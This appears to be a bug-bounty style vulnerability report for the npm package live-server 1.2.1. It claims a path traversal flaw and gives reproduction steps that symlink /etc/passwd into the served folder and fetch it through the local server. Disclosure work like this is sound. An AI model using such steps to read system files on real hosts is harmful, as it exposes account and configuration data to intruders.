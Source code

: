 # :book: Description


 I would like to report path traversal vulnerability in live-server module
It allows an attacker to read system files via path traversal vulnerability.
This is a little development server with live reload capability. 

Module
-------------------------------------------
module name: live-server
version: 1.2.1
npm page: https://www.npmjs.com/package/live-server

# :recycle:  Steps To Reproduce-:  
1)Install the live-server module
$ npm install -g live-server

2)Make a directory
$ mkdir test

3)Go to 'test' directory
$ cd test

4)create a symlink file
ln -s /etc/passwd 'filename'

5)Run live-server module
$ live-server

6)Request the file within browser
http://localhost:3474/'filename'

# :telescope: POC
  https://imgur.com/a/rHGnsGK

## 💥 Impact
This could have enabled an attacker to view system files and leverage attacks like remote code execution and so on

## ✅ Checklist
- [x] _Created and populated the `README.md` and `vulnerability.json` files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
